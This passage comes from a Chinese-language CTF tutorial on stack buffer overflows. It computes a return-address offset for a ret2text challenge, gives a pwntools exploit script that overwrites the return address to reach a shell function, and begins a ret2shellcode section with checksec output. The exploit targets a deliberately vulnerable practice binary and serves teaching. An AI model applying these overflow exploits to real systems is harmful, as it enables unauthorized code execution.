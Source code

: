 可以看到 esp 为 0xffffcd40，ebp 为具体的 payload 如下 0xffffcdc8，同时 s 相对于 esp 的索引为 [esp+0x1c]，所以，s 的地址为 0xffffcd5c，所以 s 相对于 ebp 的偏移为 0x6C，所以相对于返回地址的偏移为 0x6c+4。

最后的 payload 如下：

```python
#!/usr/bin/env python3
from pwn import *

#--------setup--------#

context(arch="i386", os="linux")

elf = ELF("ret2text")
p = elf.process()

#--------ret2text--------#

offset = 112
# <secure+61>: skip the rand() check
secure = elf.sym["secure"] + 61
print(hex(secure))

payload = flat(
    b"A" * offset,
    secure,

)

p.sendlineafter("do you know anything?\n", payload)
p.interactive()
```

## ret2shellcode

### 原理

ret2shellcode，即控制程序执行 shellcode代码。shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。**一般来说，shellcode 需要我们自己填充。这其实是另外一种典型的利用方法，即此时我们需要自己去填充一些可执行的代码**。

在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。

### 例子

这里我们以 bamboofox 中的 ret2shellcode 为例  

点击下载: [ret2shellcode](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2shellcode/ret2shellcode-example/ret2shellcode)

首先检测程序开启的保护

```shell
$ checksec ret2shellcode
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
